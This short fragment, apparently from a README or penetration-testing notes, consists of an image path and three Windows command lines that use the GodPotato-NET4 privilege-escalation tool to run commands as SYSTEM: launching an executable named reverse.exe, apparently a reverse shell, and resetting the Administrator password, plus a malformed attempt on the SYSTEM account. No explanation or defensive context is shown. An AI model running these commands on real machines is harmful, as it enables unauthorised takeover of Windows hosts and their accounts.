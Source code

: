 ```
.\GodPotato-NET4.exe -cmd "C:\reverse.exe"
.\GodPotato-NET4.exe -cmd "cmd /c net user Administrator StrongPassword1234!"
```
.\GodPotato-NET4.exe -cmd "cmd /c net user 'NT AUTHORITY\SYSTEM' StrongPassword1234!"